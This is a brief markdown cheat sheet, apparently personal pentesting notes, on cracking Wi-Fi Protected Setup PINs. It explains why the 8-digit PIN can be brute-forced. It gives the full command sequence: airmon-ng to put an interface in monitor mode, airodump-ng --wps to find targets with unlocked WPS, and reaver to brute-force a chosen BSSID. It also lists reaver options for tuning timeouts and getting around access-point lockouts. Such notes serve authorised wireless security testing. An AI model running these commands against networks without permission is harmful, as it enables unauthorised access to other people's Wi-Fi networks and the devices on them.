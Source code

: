 ### WPS (Wifi Protected Setup)
```
8 digits can be bruteforced - because 4 digits are checked separately
Access Point will mostly block connection after to many requests
```

### reaver needs the interface to be in monitor mode
```
airmon-ng check kill
airmon-ng start <interface>
```

### all networks with WPS Lock options set to "no" can be attacked
```
airodump-ng <interface> --wps
```

### start brute force
```
reaver -i <interface> -b <bssid> 
```

### general information
```
default timeout value is 5 (minimum 1 second), change it with: -t <seconds>
default delay period between pin attempts is 1 second, change it with: -d <seconds>
AP will temporarily lock WPS state, reaver will wait 315 seconds, change the amount with: --lock-delay=<seconds>
if AP does not send an EAP FAIL message, force the response with: --eap-terminate
```

